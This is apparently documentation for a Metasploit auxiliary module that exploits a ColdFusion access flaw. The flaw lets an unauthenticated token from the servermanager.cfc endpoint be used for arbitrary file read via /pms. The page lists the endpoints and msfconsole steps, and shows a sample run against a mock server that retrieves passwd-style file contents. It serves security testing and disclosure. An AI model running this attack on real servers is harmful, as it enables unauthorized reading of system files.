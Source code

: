 ## Vulnerable Application
This module exploits an Improper Access Vulnerability in Adobe Coldfusion versions prior to version
'2023 Update 6' and '2021 Update 12'. The vulnerability allows unauthenticated attackers to request authentication
token in the form of a UUID from the /CFIDE/adminapi/_servermanager/servermanager.cfc endpoint. Using that
UUID attackers can hit the /pms endpoint in order to exploit the Arbitrary File Read Vulnerability.

### Setup

#TODO: Find out how to setup a vulnerable target and put those details here.

## Verification Steps

1. Start msfconsole
1. Do: `use coldfusion_pms_servlet_file_read`
1. Set the `RHOST` and datastore option
1. If the target host is running Windows, change the default `FILE_PATH` datastore options from `/tmp/passwd` to a file path that exists on Windows.
1. Run the module
1. Receive the contents of the `FILE_PATH` file 

## Scenarios
### Mock Python Server (not actually running ColdFusion)

#TODO: Update this with output from a real ColdFusion target 
```
msf6 auxiliary(gather/coldfusion_pms_servlet_file_read) > rexploit
[*] Reloading module...
[*] Running module against 127.0.0.1

[*] Attempting to retrieve UUID ...
[+] UUID found:
1c49c29a-f1c0-4ed0-9f9e-215f434c8a12
[*] Attempting to exploit directory traversal to read /tmp/test
[+] File content:
[
  null,
  root:x:0:0:root:/root:/bin/bash,
  daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin,
  bin:x:2:2:bin:/bin:/usr/sbin/nologin,
  sys:x:3:3:sys:/dev:/usr/sbin/nologin,
  sync:x:4:65534:sync:/bin:/bin/sync,
  games:x:5:60:games:/usr/games:/usr/sbin/nologin,
  man:x:6:12:man:/var/cache/man:/usr/sbin/nologin,
  lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin,
  ]
[+] Results saved to: /Users/jheysel/.msf4/loot/20240403192500_default_127.0.0.1_coldfusion.file_475871.txt
[*] Auxiliary module execution completed
```